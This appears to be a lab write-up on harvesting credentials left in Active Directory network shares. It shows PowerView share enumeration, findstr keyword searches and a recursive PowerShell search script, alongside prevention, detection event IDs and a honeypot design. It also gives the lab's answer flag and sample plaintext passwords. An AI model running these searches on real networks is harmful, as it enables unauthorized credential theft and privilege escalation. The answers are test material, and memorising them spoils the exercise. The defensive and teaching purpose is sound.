










import RevealFlag from '@site/src/components/RevealFlag';

# Credentials in Shares

## Description

`Credentials exposed in network shares` are (`probably`) `the most encountered misconfiguration` in **Active Directory** to date. Any medium/large enterprises will **undoubtedly have exposed credentials**, although it may also happen in small businesses. It almost feels like we are moving from "Don't leave your password on a post-it note on your screen" to *"Don't leave unencrypted credentials and authorization tokens scattered everywhere"*.

We often find *credentials in network shares within scripts* and *configuration files* (`batch`, `cmd`, `PowerShell`, `conf`, `ini`, and `config`). In contrast, credentials on a user's local machine primarily reside in `text files`, `Excel sheets`, or `Word documents`. The main difference between the storage of credentials on shares and machines is that the former poses a significantly higher risk, as it **may be accessible by every user**. A network share may be accessible by every user for four main reasons:

- One admin user initially creates the shares with properly locked down access but ultimately opens it to everyone. Another admin of the server could also be the culprit. Nonetheless, the share eventually becomes open to `Everyone` or `Users`, and recall that a server's `Users` group contains `Domain users` as its member in Active Directory environments. Therefore every domain user will have at least read access *(it is wrongly assumed that adding 'Users' will give access to only those local to the server or Administrators)*.

- The administrator adding scripts with credentials to a share is unaware it is a shared folder. Many admins test their scripts in a `scripts` folder in the `C:\` drive; however, if the folder is shared (for example, with `Users`), then the data within the scripts is also exposed on the network.

- Another example is purposely creating an open share to move data to a server (for example, an application or some other files) and forgetting to close it later.

- Finally, in the case of hidden shares `(folders whose name ends with a dollar sign $)`, there is a misconception that users cannot find the folder unless they know where it exists; the misunderstanding comes from the fact that `Explorer` in Windows does not display files or folders whose name end with a `$`, however, any other tool will show it.

---

## Attack

The first step is identifying what shares exist in a domain. There are plenty of tools available that can achieve this, such as PowerView's [Invoke-ShareFinder](https://github.com/darkoperator/Veil-PowerView/blob/master/PowerView/functions/Invoke-ShareFinder.ps1). This function allows specifying that default shares should be filtered out (such as `C$` and `IPC$`) and also check if the invoking user has access to the rest of the shares it finds. The final output contains a list of non-default shares that the current user account has at least read access to:

```powershell
PS C:\Users\bob\Downloads> Invoke-ShareFinder -domain eagle.local -ExcludeStandard -CheckShareAccess

\\DC2.eagle.local\NETLOGON      - Logon server share
\\DC2.eagle.local\SYSVOL        - Logon server share
\\WS001.eagle.local\Share       -
\\WS001.eagle.local\Users       -
\\Server01.eagle.local\dev$     -
\\DC1.eagle.local\NETLOGON      - Logon server share
\\DC1.eagle.local\SYSVOL        - Logon server share
```



The playground environment has few shares in the domain, however, in production environments, the number can reach thousands (which requires long periods to parse).

The image above shows a share with the name `dev$`. Because of the dollar sign, if we were to browse the server which contains the share using Windows Explorer, we would be presented with an empty list (shares such as `C$` and `IPC$` even though available by default, Explorer does not display them because of the dollar sign):



However, since we have the `UNC` path from the output, if we browse to it, we will be able to see the contents inside the share:



A few automated tools exist, such as [SauronEye](https://github.com/vivami/SauronEye), which can parse a collection of files and pick up matching words. However, because there are few shares in the playground, we will take a more manual approach (`Living Off the Land`) and use the built-in command `findstr` for this attack. When running `findstr`, we will specify the following arguments:

- `/s` forces to search the current directory and all subdirectories

- `/i` ignores case in the search term

- `/m` shows only the filename for a file that matches the term. We highly need this in real production environments because of the huge amounts of text that get returned. For example, this can be thousands of lines in PowerShell scripts that contain the `PassThru` parameter when matching for the string `pass`.

- The `term` that defines what we are looking for. Good candidates include `pass`, `pw`, and the `NETBIOS` name of the domain. In the playground environment, it is `eagle`. Attractive targets for this search would be file types such as `.bat`, `.cmd`, `.ps1`, `.conf`, `.config`, and `.ini`. Here's how `findstr` can be executed to display the path of the files with a match that contains `pass` relative to the current location:

```powershell
PS C:\Users\bob\Downloads> cd \\Server01.eagle.local\dev$
PS Microsoft.PowerShell.Core\FileSystem::\\Server01.eagle.local\dev$> findstr /m /s /i "pass" *.bat
PS Microsoft.PowerShell.Core\FileSystem::\\Server01.eagle.local\dev$> findstr /m /s /i "pass" *.cmd
PS Microsoft.PowerShell.Core\FileSystem::\\Server01.eagle.local\dev$> findstr /m /s /i "pass" *.ini
setup.ini
PS Microsoft.PowerShell.Core\FileSystem::\\Server01.eagle.local\dev$> findstr /m /s /i "pass" *.config
4\5\4\web.config
```



Similarly, we can execute `findstr` by looking for `pw` as the search term.

:::note
That if we remove the `/m` argument, it will display the exact line in the file where the match occurred:
:::

```powershell
PS Microsoft.PowerShell.Core\FileSystem::\\Server01.eagle.local\dev$> findstr /m /s /i "pw" *.config

5\2\3\microsoft.config
PS Microsoft.PowerShell.Core\FileSystem::\\Server01.eagle.local\dev$> findstr /s /i "pw" *.config
5\2\3\microsoft.config:pw BANANANANANANANANANANANANNAANANANANAS
```



One obvious and yet uncommon search term is the `NetBIOS` name of the domain. Commands such as `runas` and `net` take passwords as a positional argument on the command line instead of passing them via `pass`, `pw`, or any other term. It is usually defined as `/user:DOMAIN\USERNAME PASSWORD`. Here's the search executed in the playground domain:

```powershell
PS Microsoft.PowerShell.Core\FileSystem::\\Server01.eagle.local\dev$> findstr /m /s /i "eagle" *.ps1

2\4\4\Software\connect.ps1
PS Microsoft.PowerShell.Core\FileSystem::\\Server01.eagle.local\dev$> findstr /s /i "eagle" *.ps1
2\4\4\Software\connect.ps1:net use E: \\DC1\sharedScripts /user:eagle\Administrator Slavi123
```



The last command reads the text file and displays its content, including the credentials; this would be the domain's built-in account credentials (not uncommon to find domain admin rights in these script files).

:::note
That running `findstr` with the same arguments is recently picked up by `Windows Defender` as suspicious behavior.
:::

---

## Prevention

The best practice to prevent these attacks is to **lock down every share** in the domain so there are no loose permissions.

Technically, there is no way to prevent what users leave behind them in scripts or other exposed files, so **performing regular scans** (e.g., `weekly`) **on AD environments to identify any new open shares** or **credentials exposed** in older ones is necessary.

---

## Detection

Understanding and **analyzing users** `behavior` **is the best detection technique** for `abusing discovered credentials in shares`. Suppose we know the time and location of users login via data analysis. In that case, it will be effortless to alert on seemingly suspicious behaviors—for example, the discovered account `Administrator` in the attack described above. If we were a mature organization that used P`rivileged Access Workstation`, we would be alert to privileged users not authenticating from those machines. These would be alerts on event IDs [4624](https://www.ultimatewindowssecurity.com/securitylog/encyclopedia/event.aspx?eventid=4624)/[4625](https://www.ultimatewindowssecurity.com/securitylog/encyclopedia/event.aspx?eventid=4625) *(failed and successful logon)* and [4768](https://www.ultimatewindowssecurity.com/securitylog/encyclopedia/event.aspx?eventid=4768) *(Kerberos TGT requested)*.

Below is an example of a successful logon with [event ID 4624](https://www.ultimatewindowssecurity.com/securitylog/encyclopedia/event.aspx?eventid=4624) for the `Administrator account`:



Similarly, if `Kerberos` were used for authentication, [event ID 4768](https://www.ultimatewindowssecurity.com/securitylog/encyclopedia/event.aspx?eventid=4768) would be generated:



Another detection technique is discovering the `one-to-many` connections, for example, when `Invoke-ShareFinder` **scans every domain device** to **obtain a list of its network shares**. It would be abnormal for a workstation to connect to 100s or even 1000s of other devices simultaneously.

---

## Honeypot 🍯

This attack provides another excellent reason for leaving a honeypot user in AD environments: a semi-privileged username with a `wrong` password. An adversary can only discover this if the password was changed after the file's last modification containing this exposed fake password. Below is a good setup for the account:

- A `service account` that was created 2+ years ago. The last password change should be at least one year ago.

- The last modification time of the file containing the `fake` password must be after the last password change of the account. Because it is a fake password, there is no risk of a threat agent compromising the account.

- The account is still active in the environment.

- The script containing the credentials should be realistic. (For example, if we choose an `MSSQL service account`, a `connection string` can expose the credentials.)

Because the provided password is wrong, we would primarily expect failed logon attempts. Three event IDs ([4625](https://www.ultimatewindowssecurity.com/securitylog/encyclopedia/event.aspx?eventid=4625), [4771](https://www.ultimatewindowssecurity.com/securitylog/encyclopedia/event.aspx?eventid=4771), and [4776](https://www.ultimatewindowssecurity.com/securitylog/encyclopedia/event.aspx?eventid=4776)) can indicate this. Here is how they look from our playground environment if an attacker is attempting to authenticate with the account `svc-iis` and a wrong password:

- [4625](https://www.ultimatewindowssecurity.com/securitylog/encyclopedia/event.aspx?eventid=4625)


---

- [4771](https://www.ultimatewindowssecurity.com/securitylog/encyclopedia/event.aspx?eventid=4771)



---

- [4776](https://www.ultimatewindowssecurity.com/securitylog/encyclopedia/event.aspx?eventid=4776)



---

## Questions

### `1.  Connect to the target and enumerate the available network shares. What is the password of the Administrator2 user?`

<RevealFlag>{`Slavi920`}</RevealFlag>

#### `Set-ExecutionPolicy Unrestrticted -Scope Process`

:::note
Doesn't need any Admin rights.
:::

```powershell
Set-ExecutionPolicy Unrestricted -Scope Process
```

#### Navigate to `PowerView`

```powershell
 cd .\Downloads
```

#### `Import-Module`

```powershell
Import-Module .\PowerView.ps1
```

#### `Invoke-ShareFinder`

```powershell
 Invoke-ShareFinder -ComputerName WS001 -ExcludeStandard -CheckShareAccess
```

```powershell
\\WS001\Share   -
\\WS001\Users   -
```

#### Navigate to the share `\\WS001\Users`

```powershell
cd \\WS001\Users
```

#### `PowerShell Script` `findstr`

```powershell
# ================== Configuration ==================
$keywords = @("Administrator2")  # Keywords to look for
$fileTypes = @("*.bat", "*.cmd", "*.ps1", "*.conf", "*.config", "*.ini")  # File types
$rootPath = Get-Location              # Starting directory
$showLineContent = $true             # Toggle: $true to show matching line content

# ================== Internal Logic =================
$pattern = ($keywords -join "|")      # Create regex pattern
$allMatches = @()

foreach ($fileType in $fileTypes) {
    Get-ChildItem -Path $rootPath -Recurse -Include $fileType -ErrorAction SilentlyContinue | ForEach-Object {
        $file = $_.FullName
        try {
            $matches = Select-String -Path $file -Pattern $pattern -ErrorAction SilentlyContinue
            if ($matches) {
                if ($showLineContent) {
                    foreach ($match in $matches) {
                        $allMatches += [PSCustomObject]@{
                            Timestamp   = (Get-Date).ToString("yyyy-MM-dd HH:mm:ss")
                            File        = $match.Path
                            Line        = $match.LineNumber
                            Keyword     = ($keywords | Where-Object { $match.Line.ToLower().Contains($_.ToLower()) }) -join ", "
                            Content     = $match.Line.Trim()
                        }
                    }
                } else {
                    $allMatches += [PSCustomObject]@{
                        Timestamp = (Get-Date).ToString("yyyy-MM-dd HH:mm:ss")
                        File      = $file
                    }
                }
            }
        } catch {
            Write-Warning "Could not read file: $file"
        }
    }
}

# ================== Output =================
if ($allMatches.Count -gt 0) {
    if ($showLineContent) {
        $allMatches | Sort-Object File, Line | Format-Table -AutoSize
    } else {
        $allMatches | Sort-Object File | Select-Object -Unique File, Timestamp | Format-Table -AutoSize
    }
} else {
    Write-Host "No matches found." -ForegroundColor Yellow
}
```

---

### 📦 How to use the script

By default, it only shows paths with hits (clearly arranged).

If you also want to see line content, change:

```powershell
$showLineContent = $true
```